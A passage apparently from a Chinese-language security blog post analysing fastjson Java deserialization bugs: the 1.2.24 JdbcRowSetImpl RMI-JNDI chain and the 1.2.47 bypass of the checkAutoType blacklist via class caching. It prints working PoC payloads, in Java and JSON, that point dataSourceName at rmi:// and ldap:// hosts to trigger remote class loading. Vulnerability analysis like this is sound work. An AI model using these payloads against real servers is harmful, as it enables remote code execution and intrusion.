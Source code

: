 我们之前讲到，RMI-JNDI到利用是这样到

```
JdbcRowSetImpl JdbcRowSetImpl_inc = new JdbcRowSetImpl();
JdbcRowSetImpl_inc.setDataSourceName("rmi://127.0.0.1:1099/test");
JdbcRowSetImpl_inc.setAutoCommit(true);
```

然后fastjson会有`@type`的情况下会调用set方法，所以会调用`setDataSourceName`和`setAutoCommit`，然后就进入到了RMI-JNDI的利用链中

然后1.2.24版本的fastjson漏洞就是这么简单

1.2.24版本之后加入了`checkAutoType`函数，用黑名单的方式检查`@type`指定的类

### 0x04 1.2.47版本fastjson漏洞
然后就是这唯一可以打公司外网RCE成功的现在这个通杀绕过`@type`检查的RCE了

```
public class Payload {
    public static void main(String[] args) {
        String aa =   "{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://127.0.0.1:1099/test\",\"autoCommit\":true}}}";
        JSON.parse(aa);
    }
}
```

PoC特写

```
{
    "a": {
        "@type": "java.lang.Class",
        "val": "com.sun.rowset.JdbcRowSetImpl"
    },
    "b": {
        "@type": "com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName": "ldap://localhost:1389/Exploit",
        "autoCommit": true
    }
}
```

可以看到，PoC分两个部分，第二部分和之前的PoC其实是一样的，所以利用链也一样，那剩下的肯定是绕过用的

然后我们看看是怎么绕过的，主要看两个地方，调用栈和调试信息如下图

![4-1](https://milkfr.github.io/assets/images/posts/2019-07-22-analysis-java-deserialize-fastjson/4-1.png)

![4-2](https://milkfr.github.io/assets/images/posts/2019-07-22-analysis-java-deserialize-fastjson/4-2.png)

然后是在`loadClass`的过程中，因为`cache`变量默认为`true`，所以把`com.sun.rowset.JdbcRowSetImpl`放入了`mappings`中

然后`@type`为`com.sun.rowset.JdbcRowSetImpl`时候的`checkAutoType`因为可以从`mappings`里获取到`com.sun.rowset.JdbcRowSetImpl`就不验证黑名单黑名单，绕过检测
